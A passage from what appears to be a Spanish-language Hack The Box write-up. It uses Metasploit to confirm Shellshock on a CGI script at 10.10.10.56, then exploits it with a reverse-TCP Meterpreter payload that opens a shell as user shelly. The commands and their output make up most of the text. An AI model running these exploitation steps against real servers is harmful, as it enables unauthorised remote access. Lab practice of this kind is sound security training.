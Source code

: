 * Vamos a usar el modulo auxiliar (el número 2), que nos indica si es vulnerable la página web:
```bash
msf6 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS Tu_IP
RHOSTS => Tu_IP
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI http://10.10.10.56/cgi-bin/user.sh
TARGETURI => http://10.10.10.56/cgi-bin/user.sh
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit
.
[+] uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Excelente, de esta forma, encontramos que la página web es vulnerable al **ataque Shellshock**.

Ahora vamos a ganar acceso, igual por pasos:

* Utiliza el módulo número 1:
```bash
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > use exploit/multi/http/apache_mod_cgi_bash_env_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
```

* Configura el módulo:
```bash
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS Tu_IP
RHOSTS => Tu_IP
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI http://10.10.10.56/cgi-bin/user.sh
TARGETURI => http://10.10.10.56/cgi-bin/user.sh
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set LHOST Tu_IP
LHOST => Tu_IP
```

* Ejecuta el módulo:
```bash
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit
.
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (1017704 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 10.10.10.56:55944)
.
meterpreter > sysinfo
Computer     : 10.10.10.56
OS           : Ubuntu 16.04 (Linux 4.4.0-96-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > shell
Process 1558 created.
Channel 1 created.
whoami
shelly
```
Listo, volvimos a ganar acceso.
